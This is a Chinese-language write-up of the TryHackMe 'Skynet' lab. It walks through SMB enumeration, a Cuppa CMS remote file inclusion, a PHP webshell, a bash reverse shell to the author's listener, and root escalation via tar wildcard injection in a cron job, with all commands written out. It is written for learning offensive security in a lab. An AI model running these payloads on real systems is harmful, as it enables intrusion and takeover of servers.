


# Tryhack Me Skynet Writeup
https://tryhackme.com/room/skynet

紀錄自己的writeup與碰壁情況xd
## 資訊收集
透過 nmap、gobuster 等工具進行掃描
### nmap
```bash
┌──(kali㉿kali)-[~/Desktop/ctf/tryhackme]
└─$ nmap 10.49.187.42
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-12 04:46 -0500
Nmap scan report for 10.49.187.42
Host is up (0.37s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 4.44 seconds
```
### gobuster
```bash
┌──(kali㉿kali)-[~/Desktop/ctf/tryhackme]
└─$ gobuster dir -u 10.49.187.42 -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt                                                      
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.49.187.42
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 312] [--> http://10.49.187.42/admin/]
/css                  (Status: 301) [Size: 310] [--> http://10.49.187.42/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.49.187.42/js/]
/config               (Status: 301) [Size: 313] [--> http://10.49.187.42/config/]
/squirrelmail         (Status: 301) [Size: 319] [--> http://10.49.187.42/squirrelmail/]
/ai                   (Status: 301) [Size: 309] [--> http://10.49.187.42/ai/]
/server-status        (Status: 403) [Size: 277]
Progress: 4899 / 20115 (24.35%)^C
```

得知機器有smb服務，嘗試一下會發現僅 /squirrelmail/ 目錄可被存取
### squirrelmail
雖然 mail 頁面可被存取，但目前完全無任何有關帳密的資訊 


### smb 
透過 smbmap 掃描 smb 服務，得知有一個 anonymous 的 share 可被讀取
```bash
(kali㉿kali)-[~/Desktop/ctf/tryhackme]
└─$ smbmap -H 10.49.187.42                                                                                                                  
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 10.49.187.42:445        Name: 10.49.187.42              Status: NULL Session
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        anonymous                                               READ ONLY       Skynet Anonymous Share
        milesdyson                                              NO ACCESS       Miles Dyson Personal Share
        IPC$                                                    NO ACCESS       IPC Service (skynet server (Samba, Ubuntu))
[*] Closed 1 connections                   
```
透過 smbclient 連線至 anonymous share ，把檔案都 get 下來看看，因匿名可讀所以遇到密碼直接enter即可
```bash
┌──(kali㉿kali)-[~/Desktop/ctf/tryhackme]
└─$ sudo smbclient //10.49.187.42/anonymous
[sudo] password for kali: 
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Nov 26 11:04:00 2020
  ..                                  D        0  Tue Sep 17 03:20:17 2019
  attention.txt                       N      163  Tue Sep 17 23:04:59 2019
  logs                                D        0  Wed Sep 18 00:42:16 2019

                9204224 blocks of size 1024. 5831032 blocks available
smb: \> get attention.txt
getting file \attention.txt of size 163 as attention.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> cd logs
smb: \logs\> ls
  .                                   D        0  Wed Sep 18 00:42:16 2019
  ..                                  D        0  Thu Nov 26 11:04:00 2020
  log2.txt                            N        0  Wed Sep 18 00:42:13 2019
  log1.txt                            N      471  Wed Sep 18 00:41:59 2019
  log3.txt                            N        0  Wed Sep 18 00:42:16 2019
get 
                9204224 blocks of size 1024. 5831032 blocks available
smb: \logs\> get log1.txt 
getting file \logs\log1.txt of size 471 as log1.txt (0.3 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \logs\> get log2.txt 
getting file \logs\log2.txt of size 0 as log2.txt (0.0 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \logs\> get log3.txt 
getting file \logs\log3.txt of size 0 as log3.txt (0.0 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \logs\> 
```
取得的檔案內容如下
```txt
┌──(kali㉿kali)-[~/Desktop/ctf/tryhackme/skynet]
└─$ cat attention.txt                                                                                                            
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson

┌──(kali㉿kali)-[~/Desktop/ctf/tryhackme/skynet]
└─$ cat log1.txt 
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
```       
# flag1
## 透過收集的資訊進行嘗試
第一個flag問的是miles的mail密碼是甚麼，根據 attention.txt 的管理員要求重設密碼可以猜測，smb的密碼最近被重設過。

而疑似是密碼的清單與smb那邊存在帳號`milesdyson`，可以嘗試在smb與squirrelmail登入
，嘗試幾個密碼後，發現smb無法用這些登入，而squirrelmail的密碼為 `cyborg007haloterminator`

# flag2
## 透過收集的資訊進行嘗試
mail登入後裡面有一個 smb 密碼重設的信件，有重設的密碼，我們可以嘗試繼續用 smbclient 與那組重設的密碼登入 milesdyson (密碼含特殊符號，只需在指令中指定帳號即可，他要密碼時再貼上給他)
```bash
┌──(kali㉿kali)-[~/Desktop/ctf/tryhackme/skynet]
└─$ smbclient //10.49.187.42/milesdyson -U milesdyson
Password for [WORKGROUP\milesdyson]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Sep 17 05:05:47 2019
  ..                                  D        0  Tue Sep 17 23:51:03 2019
  Improving Deep Neural Networks.pdf      N  5743095  Tue Sep 17 05:05:14 2019
  Natural Language Processing-Building Sequence Models.pdf      N 12927230  Tue Sep 17 05:05:14 2019
  Convolutional Neural Networks-CNN.pdf      N 19655446  Tue Sep 17 05:05:14 2019
  notes                               D        0  Tue Sep 17 05:18:40 2019
  Neural Networks and Deep Learning.pdf      N  4304586  Tue Sep 17 05:05:14 2019
  Structuring your Machine Learning Project.pdf      N  3531427  Tue Sep 17 05:05:14 2019

                9204224 blocks of size 1024. 5831000 blocks available
smb: \> cd notes
smb: \notes\> ls
  .                                   D        0  Tue Sep 17 05:18:40 2019
  ..                                  D        0  Tue Sep 17 05:05:47 2019
  3.01 Search.md                      N    65601  Tue Sep 17 05:01:29 2019
  4.01 Agent-Based Models.md          N     5683  Tue Sep 17 05:01:29 2019
  2.08 In Practice.md                 N     7949  Tue Sep 17 05:01:29 2019
  0.00 Cover.md                       N     3114  Tue Sep 17 05:01:29 2019
  1.02 Linear Algebra.md              N    70314  Tue Sep 17 05:01:29 2019
  important.txt                       N      117  Tue Sep 17 05:18:39 2019
  6.01 pandas.md                      N     9221  Tue Sep 17 05:01:29 2019
  3.00 Artificial Intelligence.md      N       33  Tue Sep 17 05:01:29 2019
  2.01 Overview.md                    N     1165  Tue Sep 17 05:01:29 2019
  3.02 Planning.md                    N    71657  Tue Sep 17 05:01:29 2019
  1.04 Probability.md                 N    62712  Tue Sep 17 05:01:29 2019
  2.06 Natural Language Processing.md      N    82633  Tue Sep 17 05:01:29 2019
  2.00 Machine Learning.md            N       26  Tue Sep 17 05:01:29 2019
  1.03 Calculus.md                    N    40779  Tue Sep 17 05:01:29 2019
  3.03 Reinforcement Learning.md      N    25119  Tue Sep 17 05:01:29 2019
  1.08 Probabilistic Graphical Models.md      N    81655  Tue Sep 17 05:01:29 2019
  1.06 Bayesian Statistics.md         N    39554  Tue Sep 17 05:01:29 2019
  6.00 Appendices.md                  N       20  Tue Sep 17 05:01:29 2019
  1.01 Functions.md                   N     7627  Tue Sep 17 05:01:29 2019
  2.03 Neural Nets.md                 N   144726  Tue Sep 17 05:01:29 2019
  2.04 Model Selection.md             N    33383  Tue Sep 17 05:01:29 2019
  2.02 Supervised Learning.md         N    94287  Tue Sep 17 05:01:29 2019
  4.00 Simulation.md                  N       20  Tue Sep 17 05:01:29 2019
  3.05 In Practice.md                 N     1123  Tue Sep 17 05:01:29 2019
  1.07 Graphs.md                      N     5110  Tue Sep 17 05:01:29 2019
  2.07 Unsupervised Learning.md       N    21579  Tue Sep 17 05:01:29 2019
  2.05 Bayesian Learning.md           N    39443  Tue Sep 17 05:01:29 2019
  5.03 Anonymization.md               N     2516  Tue Sep 17 05:01:29 2019
  5.01 Process.md                     N     5788  Tue Sep 17 05:01:29 2019
  1.09 Optimization.md                N    25823  Tue Sep 17 05:01:29 2019
  1.05 Statistics.md                  N    64291  Tue Sep 17 05:01:29 2019
  5.02 Visualization.md               N      940  Tue Sep 17 05:01:29 2019
  5.00 In Practice.md                 N       21  Tue Sep 17 05:01:29 2019
  4.02 Nonlinear Dynamics.md          N    44601  Tue Sep 17 05:01:29 2019
  1.10 Algorithms.md                  N    28790  Tue Sep 17 05:01:29 2019
  3.04 Filtering.md                   N    13360  Tue Sep 17 05:01:29 2019
  1.00 Foundations.md                 N       22  Tue Sep 17 05:01:29 2019

                9204224 blocks of size 1024. 5831000 blocks available
smb: \notes\> get important.txt
getting file \notes\important.txt of size 117 as important.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \notes\> ^C

┌──(kali㉿kali)-[~/Desktop/ctf/tryhackme/skynet]
└─$ cat important.txt                                                                                                            

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife

```

嗯...看起來很多文章，有個比較特別的是 important.txt 裡面提到 beta CMS 以及一個目錄 `/45kra24zxs28v3yd`

# flag3
## 查看隱藏目錄
透過瀏覽器前往 `http://10.49.187.42/45kra24zxs28v3yd/`，發現是個人介面

因 important 中提到 beta CMS ，猜測可能有新的東西在新目錄下，可繼續嘗試 gobuster 這個新目錄

## gobuster 掃描隱藏目錄
經過掃描，發現了一個 administrator 目錄
```bash
┌──(kali㉿kali)-[~/Desktop/ctf/tryhackme/skynet]
└─$ gobuster dir -u 10.49.187.42/45kra24zxs28v3yd -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt       
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.49.187.42/45kra24zxs28v3yd
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/administrator        (Status: 301) [Size: 337] [--> http://10.49.187.42/45kra24zxs28v3yd/administrator/]
Progress: 3892 / 20115 (19.35%)^C
```
查看 http://10.49.187.42/45kra24zxs28v3yd/administrator/ ，確實是一個叫做 `Cuppa CMS` 的登入介面



## searchsploit 利用
serchsploit 簡單來說就是一個存放很多exploit的資料庫，可以透過關鍵字搜尋相關的exploit

透過 searchsploit 搜尋 cuppa cms 相關的exploit，發現有一個 Local/Remote File Inclusion 的漏洞可以利用
```bash
┌──(kali㉿kali)-[~/Desktop/ctf/tryhackme/skynet]
└─$ searchsploit cuppa
----------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                 |  Path
----------------------------------------------------------------------------------------------- ---------------------------------
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion                                | php/webapps/25971.txt
----------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

其中 flag3 就是 searchsploit 裡提到的 `remote file inclusion`

# flag4 
searchsploit 知道有人家寫好的 exploit code 可以利用，先查看具體內容
```bash
# 通常用 searchsploit -x 25971 ，即可進入vim查看exploit
┌──(kali㉿kali)-[~/Desktop/ctf/tryhackme/skynet]
└─$ searchsploit -x 25971
  Exploit: Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion
      URL: https://www.exploit-db.com/exploits/25971
     Path: /usr/share/exploitdb/exploits/php/webapps/25971.txt
    Codes: OSVDB-94101
 Verified: True
File Type: C++ source, ASCII text, with very long lines (876)


┌──(kali㉿kali)-[~/Desktop/ctf/tryhackme/skynet]
└─$ cat /usr/share/exploitdb/exploits/php/webapps/25971.txt                                                                                                   
# Exploit Title   : Cuppa CMS File Inclusion
# Date            : 4 June 2013
# Exploit Author  : CWH Underground
# Site            : www.2600.in.th
# Vendor Homepage : http://www.cuppacms.com/
# Software Link   : http://jaist.dl.sourceforge.net/project/cuppacms/cuppa_cms.zip
# Version         : Beta
# Tested on       : Window and Linux

  ,--^----------,--------,-----,-------^--,
  | |||||||||   `--------'     |          O .. CWH Underground Hacking Team ..
  `+---------------------------^----------|
    `\_,-------, _________________________|
      / XXXXXX /`|     /
     / XXXXXX /  `\   /
    / XXXXXX /\______(
   / XXXXXX /
  / XXXXXX /
 (________(
  `------'

####################################
VULNERABILITY: PHP CODE INJECTION
####################################

/alerts/alertConfigField.php (LINE: 22)

-----------------------------------------------------------------------------
LINE 22:
        <?php include($_REQUEST["urlConfig"]); ?>
-----------------------------------------------------------------------------


#####################################################
DESCRIPTION
#####################################################

An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.

http://target/cuppa/alerts/alertConfigField.php?urlConfig=[FI]

#####################################################
EXPLOIT
#####################################################

http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

Moreover, We could access Configuration.php source code via PHPStream

For Example:
-----------------------------------------------------------------------------
http://target/cuppa/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php
-----------------------------------------------------------------------------

Base64 Encode Output:
-----------------------------------------------------------------------------
PD9waHAgCgljbGFzcyBDb25maWd1cmF0aW9uewoJCXB1YmxpYyAkaG9zdCA9ICJsb2NhbGhvc3QiOwoJCXB1YmxpYyAkZGIgPSAiY3VwcGEiOwoJCXB1YmxpYyAkdXNlciA9ICJyb290IjsKCQlwdWJsaWMgJHBhc3N3b3JkID0gIkRiQGRtaW4iOwoJCXB1YmxpYyAkdGFibGVfcHJlZml4ID0gImN1XyI7CgkJcHVibGljICRhZG1pbmlzdHJhdG9yX3RlbXBsYXRlID0gImRlZmF1bHQiOwoJCXB1YmxpYyAkbGlzdF9saW1pdCA9IDI1OwoJCXB1YmxpYyAkdG9rZW4gPSAiT0JxSVBxbEZXZjNYIjsKCQlwdWJsaWMgJGFsbG93ZWRfZXh0ZW5zaW9ucyA9ICIqLmJtcDsgKi5jc3Y7ICouZG9jOyAqLmdpZjsgKi5pY287ICouanBnOyAqLmpwZWc7ICoub2RnOyAqLm9kcDsgKi5vZHM7ICoub2R0OyAqLnBkZjsgKi5wbmc7ICoucHB0OyAqLnN3ZjsgKi50eHQ7ICoueGNmOyAqLnhsczsgKi5kb2N4OyAqLnhsc3giOwoJCXB1YmxpYyAkdXBsb2FkX2RlZmF1bHRfcGF0aCA9ICJtZWRpYS91cGxvYWRzRmlsZXMiOwoJCXB1YmxpYyAkbWF4aW11bV9maWxlX3NpemUgPSAiNTI0Mjg4MCI7CgkJcHVibGljICRzZWN1cmVfbG9naW4gPSAwOwoJCXB1YmxpYyAkc2VjdXJlX2xvZ2luX3ZhbHVlID0gIiI7CgkJcHVibGljICRzZWN1cmVfbG9naW5fcmVkaXJlY3QgPSAiIjsKCX0gCj8+
-----------------------------------------------------------------------------

Base64 Decode Output:
-----------------------------------------------------------------------------
<?php
        class Configuration{
                public $host = "localhost";
                public $db = "cuppa";
                public $user = "root";
                public $password = "Db@dmin";
                public $table_prefix = "cu_";
                public $administrator_template = "default";
                public $list_limit = 25;
                public $token = "OBqIPqlFWf3X";
                public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
                public $upload_default_path = "media/uploadsFiles";
                public $maximum_file_size = "5242880";
                public $secure_login = 0;
                public $secure_login_value = "";
                public $secure_login_redirect = "";
        }
?>
-----------------------------------------------------------------------------

Able to read sensitive information via File Inclusion (PHP Stream)

################################################################################################################
 Greetz      : ZeQ3uL, JabAv0C, p3lo, Sh0ck, BAD $ectors, Snapter, Conan, Win7dos, Gdiupo, GnuKDE, JK, Retool2
################################################################################################################
```

總而言之，這個漏洞可以讓我們透過 RFI 讓伺服器來讀取我們本機上的php檔案形成webshell或執行php檔案中的指令
## RFI/webshell利用
```
# 網址
http://10.49.187.42/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://192.168.139.221:8000/shell.php&cmd=ls%20/


# kali(使用vpn id)
#建立webshell，名為 shell.php
<?php system($_GET['cmd']); ?>

#透過python3啟動http server
python3 -m http.server 8000
```
**根據題目介紹與webshell，可以在/home下找到 `user flag`**

# flag5
另一個flag檔處於 `/root` 下，可我們現在是www-data 權限，需進行`提權`
## crontab
查看 crontab 發現有一個每分鐘會以root執行的腳本 `/home/milesdyson/backups/backup.sh`
```txt
Field configuration:
# /etc/crontab: system-wide crontab # Unlike any other crontab you don't have to run the `crontab' # command to install the new version when you edit this file # and files in /etc/cron.d. These files also have username fields, # that none of the other crontabs do. SHELL=/bin/sh PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin # m h dom mon dow user command */1 * * * * root /home/milesdyson/backups/backup.sh 17 * * * * root cd / && run-parts --report /etc/cron.hourly 25 6 * * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily ) 47 6 * * 7 root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly ) 52 6 1 * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly ) #
```
### 以root執行的backup.sh
```
Field configuration:
#!/bin/bash cd /var/www/html tar cf /home/milesdyson/backups/backup.tgz *
```

## 透過 **`tar *`** 提權
這個解法很酷，`tar cf /home/milesdyson/backups/backup.tgz *`會展開當前目錄下的所有檔名，若檔案名不正確可能會被當作tar的參數處理，進而以root的身分執行指令

透過webshell嘗試創建檔案名為 `--checkpoint=1`；`
--checkpoint-action=exec=bash /var/www/html/privesc.sh`；`privesc.sh` 的檔案在/var/www/html/，`privesc.sh`內容為你想執行的指令，只要能獲得`/root/root.txt`的指令都可，這邊是打個`reverse shell`

```bash

# 在/var/www/html/下
--checkpoint=1
--checkpoint-action=exec=bash /var/www/html/privesc.sh
privesc.sh
...其他檔案

tar cf /home/milesdyson/backups/backup.tgz *在用的時候，會將檔名直接插在後面
tar cf /home/milesdyson/backups/backup.tgz --checkpoint=1 --checkpoint-action=exec=bash /var/www/html/privesc.sh privesc.sh ...
```
意思就是說，參數`--checkpoint=1`規定在tar每執行一個檔案後，要做`--checkpoint-action=exec=bash /var/www/html/privesc.sh`這個參數，而`--checkpoint-action=exec=bash /var/www/html/privesc.sh`會以root執行`/var/www/html/privesc.sh`這個檔案，而這個檔案內容又是我們想執行的指令

可透過webshell下達以下指令創建tar參數檔案:
```bash
echo "123" > "/var/www/html/--checkpoint-action=exec=bash privesc.sh"

echo "123" > "/var/www/html/--checkpoint=1"
```

在做的時候我貌似一直被卡特殊符號，所以特別多寫了一個製作`privesc.sh`的 php 腳本來完成reverse shell的準備
```php
<?php                                                                                             
$payload = 'bash -i >& /dev/tcp/192.168.139.221/4444 0>&1';                                            
file_put_contents('/var/www/html/privesc.sh', $payload);                                               
chmod('/var/www/html/privesc.sh', 0755);                                                               
echo "File written successfully";                                                                      
?>
```

用RFI觸發後就會在伺服器自動生成具備reverse shell的`privesc.sh`，以上三個檔案創建好後，在本地開啟監聽，接著等待cron job執行即可獲得root shell
```bash
┌──(kali㉿kali)-[~/Desktop/ctf/tryhackme/skynet]
└─$ nc -lvnp 4444                                                                                                  
listening on [any] 4444 ...
connect to [192.168.139.221] from (UNKNOWN) [10.49.187.42] 48876
bash: cannot set terminal process group (22772): Inappropriate ioctl for device
bash: no job control in this shell
root@skynet:/var/www/html# whoami
whoami
root
root@skynet:/var/www/html# cat /root/root.txt
cat /root/root.txt
3f0372db24753acc****(不提供flag)
```